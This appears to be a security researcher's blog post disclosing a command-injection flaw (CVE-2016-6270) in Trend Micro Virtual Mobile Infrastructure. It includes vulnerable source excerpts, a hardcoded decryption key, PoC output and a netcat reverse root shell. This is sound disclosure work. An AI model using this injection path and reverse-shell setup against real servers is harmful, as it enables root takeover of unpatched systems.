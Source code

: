 ```yaml
---
layout: post
title:  "Trend Micro Bug Hunting - Part III"
date:   2016-10-08 07:00:00
comments: true
categories: pentesting trendmicro
---
```



Trend Micro Virtual Mobile Infrastructure is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of VMI to gain remote command execution with root privileges.

From Trend Micro documentation:

> Trend Micro Virtual Mobile Infrastructure is a service that hosts independent workspaces for every user. A user workspace is based on Android operating system, which is accessible via Virtual Mobile Infrastructure mobile client application installed on an Android, iOS or Windows mobile device. Using the mobile client application, users can access the same mobile environment that includes all their applications and data from any location, without being tied to a single mobile device. The mobile client application preserves the original Android user experience by providing all the Android features and their controls to the user.

I recommend anyone running Virtual Mobile Infrastructure to update to version 5.1, available at the following location:

*  [Virtual Mobile Infrastructure 5.1](http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4968&lang_loc=1)

Trend Micro Advisory is available on their latest security bulletin: [Security Bulletin: Trend Micro Virtual Mobile Infrastructure (VMI) Remote Code Execution Vulnerability](https://success.trendmicro.com/solution/1115411)

#### Affected Versions

* Trend Micro Virtual Mobile Infrastructure up to version 5.0

### Authenticated RCE - Technical Description

The administration interface provides a way for administrators to upload certificates by going to Administration > Certificate Management. The interface uploads a certificate file then sends a reference to the uploaded certificate and the password to unlock that certificate.

To understand how everything pans out, you first have to understand how VMI server works.

The request is handled by the following Django code in ```vmi/manager/configuration/views.py```. We can see that the password is decrypted using a hardcoded key (```#$vmi4trend```) using Blowfish with PKCS7 padding, then a call to ```sendAndRecvCmd``` is made with the certificate filename and password as parameters.

{% highlight python %}
class SaveIdentifyView(APIView):
  def post(self, request):
    try:
      pw = decode_with_hex_bf_pkcs7(VMI.JS_ENCRYPTION_MAGIC_CODE, request.DATA['password'])
      file_name = request.DATA['filename']
      (ret, all) = sendAndRecvCmd(CMD.CMD_IMPORT_IDENTIFY_CLIENT_PFX, filename = file_name, password = pw)
      data = { }
      data['fail'] = len(ret)
      data['total'] = all
      desc = audit_log[AuditLogType.CERTIFICATE_MANAGEMENT]
      admin = request.user
      setAuditLog(desc, AuditLogType.CERTIFICATE_MANAGEMENT, admin)
      return generalJsonResponse(status.HTTP_200_OK, ErrorCode.SUCCESS, ret, data)
    except Exception:
      e = None
      logger.error(str(e))
      return generalJsonResponse(status.HTTP_400_BAD_REQUEST, ErrorCode.FAILURE)
{% endhighlight %}

The ```sendAndRecvCmd``` function is defined in ```vmi/manager/engine/api.py```. This function sends data to the local Redis server. The data being sent is composed of a command identifier and parameters to be used with that command. On launch, the server register a bunch of redis worker that listens for data being sent to Redis. Each worker will decide to execute a command based on the command identifier.

{% highlight python %}
class BaseCmd(object):

  def sendAndReceive(cls, cmd):
    return BaseCmd.sendAndReceiveEx(cmd, get_redis())
  sendAndReceive = classmethod(sendAndReceive)

  def sendAndReceiveEx(cls, cmd, redis):
    cmd.ret_addr = 'vmi_ret_addr_%d' % id(cmd)
    key = CMD.get_queue(cmd.cmd)
    redis.rpush(key, jsonpickle.encode(cmd))
    popped = redis.blpop(cmd.ret_addr, settings.VMIM['execute_cmd_timeout'])
    if popped is not None:
      return jsonpickle.decode(popped[1])
    logger.warn('timeout for cmd: %s' % jsonpickle.encode(cmd))
  sendAndReceiveEx = classmethod(sendAndReceiveEx)

  def send(cls, cmd):
    BaseCmd.sendEx(cmd, get_redis())
  send = classmethod(send)

  def sendEx(cls, cmd, redis):
    cmd.ret_addr = None
    redis.rpush(CMD.get_queue(cmd.cmd), jsonpickle.encode(cmd))
    sendEx = classmethod(sendEx)
    cmd = 0
    ret_addr = None

def sendAndRecvCmd(cmd, **kargs):
    return BaseCmd.sendAndReceive(GeneralCmd(cmd, **None))
{% endhighlight %}

The worker that receives the command is ```/vmi/manager/engine/management/commands/apns_worker.py```.

As we can see in the excerpt below, the password parameter is not sanitized and directly fed to an openssl command line. This can be exploited by injecting system commands into the password field to gain remote command execution.

{% highlight python %}
def handle_certificate(self, pfx_file, password):
  if os.path.exists(pfx_file):
    cmd = "openssl pkcs12 -in '%s' -clcerts -out %s -passin pass:%s -passout pass:" % (pfx_file, self.cert_tmp, password)
    (status, result) = commands.getstatusoutput(cmd)
{% endhighlight %}


I wrote the initial proof-of-concept using Python. You can get the code from [here]({{site.url}}assets/exploit_vmi.py).

<pre>
python exploit.py --rhost vmi --rport 8443 --lhost attacker --lport 4444 --username admin --password admin
[+] Login to https://vmi:8443/
[+] Successfully logged in.
[+] Uploading vmi.pfx to the server ...
[+] File uploaded successfully (7283f4f2-ae5a-4683-957f-348418a10c67.pfx)
[+] Sending payload ...
</pre>

And here goes your root shell :)

<pre>
nc -lvp 4444
listening on [any] 4444 ...
bash: no job control in this shell
[root@localhost /]# whoami
root
[root@localhost /]# pwd
/
[root@localhost /]# 
</pre>


### Conclusion

This is a nice example of a bug that only code review could have catched. First, the password has to be properly decrypted to even reach the `sendAndRcv` call which means it has to be properly encrypted in the first place. Nothing that tools like Burp or Zap could have picked up. Then this all redis worker path could have prevented proper identification of the bug.

Once again, Trend Micro vulnerability team was great in handling this coordinated disclosure.


### Disclosure Timeline

* 2016-05-11: Advisory sent to Trend Micro 
* 2016-05-11: Trend Micro acknowledge the issue
* 2016-05-20: Trend Micro provides a planning for the fix
* 2016-10-08: Trend Micro released a patch

### CVE Identifier

* [CVE-2016-6270](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2016-5270) - Authenticated remote code execution by exploiting the vulnerability in which ```openssl``` is used directly with untrusted input within ```apns_worker.py```

### Exploit

* [Python PoC]({{site.url}}assets/exploit_vmi.py)
* Metasploit module - Will push it by this evening :)
